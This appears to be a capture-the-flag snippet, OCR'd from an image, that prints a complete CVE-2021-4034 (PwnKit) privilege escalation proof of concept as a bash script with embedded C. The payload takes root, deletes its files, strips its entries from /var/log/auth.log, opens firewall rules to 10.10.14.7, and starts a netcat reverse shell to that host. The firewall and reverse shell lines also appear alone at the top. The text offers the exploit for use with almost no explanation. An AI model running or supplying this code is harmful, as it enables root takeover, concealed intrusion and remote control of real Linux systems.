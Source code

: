 ```bash
/usr/sbin/iptables -A OUTPUT -p tcp -d 10.10.14.7 -j ACCEPT
/usr/sbin/iptables -A INPUT -p tcp -s 10.10.14.7 -j ACCEPT
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 9000 >/tmp/f
```


```bash
┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ cat pkwner.png
#!/bin/bash
echo "██████╗ ██╗  ██╗██╗    ██╗███╗   ██╗███████╗██████╗ "
echo "██╔══██╗██║ ██╔╝██║    ██║████╗  ██║██╔════╝██╔══██╗"
echo "██████╔╝█████╔╝ ██║ █╗ ██║██╔██╗ ██║█████╗  ██████╔╝"
echo "██╔═══╝ ██╔═██╗ ██║███╗██║██║╚██╗██║██╔══╝  ██╔══██╗"
echo "██║     ██║  ██╗╚███╔███╔╝██║ ╚████║███████╗██║  ██║"
echo "╚═╝     ╚═╝  ╚═╝ ╚══╝╚══╝ ╚═╝  ╚═══╝╚══════╝╚═╝  ╚═╝"
echo "CVE-2021-4034 PoC by Kim Schulz"
# shell poc by Kim Schulz
echo "[+] Setting up environment..."
mkdir -p 'GCONV_PATH=.'
touch 'GCONV_PATH=./pkwner'
chmod a+x 'GCONV_PATH=./pkwner'
mkdir -p pkwner
echo "module UTF-8// PKWNER// pkwner 2" > pkwner/gconv-modules
cat > pkwner/pkwner.c <<- EOM
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
void gconv() {}
void gconv_init() {
  printf("hello");
  setuid(0); setgid(0);
        seteuid(0); setegid(0);
  system("PATH=/bin:/usr/bin:/usr/sbin:/usr/local/bin/:/usr/local/sbin;"
         "rm -rf 'GCONV_PATH=.' 'pkwner';"
         "cat /var/log/auth.log|grep -v pkwner >/tmp/al;cat /tmp/al >/var/log/auth.log;"
         "/usr/sbin/iptables -A OUTPUT -p tcp -d 10.10.14.7 -j ACCEPT;"
         "/usr/sbin/iptables -A INPUT -p tcp -s 10.10.14.7 -j ACCEPT;"
         "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 9000 >/tmp/f;");
        exit(0);
}
EOM

cat > pkwner/exec.c <<- EOM
#include <stdlib.h>
#include <unistd.h>
int main(){
  char *env[] = {"pkwner", "PATH=GCONV_PATH=.", "CHARSET=PKWNER",
                 "SHELL=pkwner", NULL};
  execve("/usr/bin/pkexec", (char *[]){NULL}, env);
}
EOM
echo "[+] Build offensive gconv shared module..."
gcc -fPIC -shared -o pkwner/pkwner.so pkwner/pkwner.c
echo "[+] Build mini executor..."
gcc -o pkwner/executor pkwner/exec.c
# export PATH="GCONV_PATH=."
# export CHARSET="PKWNER"
#export SHELL=pkwner
PATH='GCONV_PATH=.' ./pkwner/executor
echo "[+] Nice Job"
```

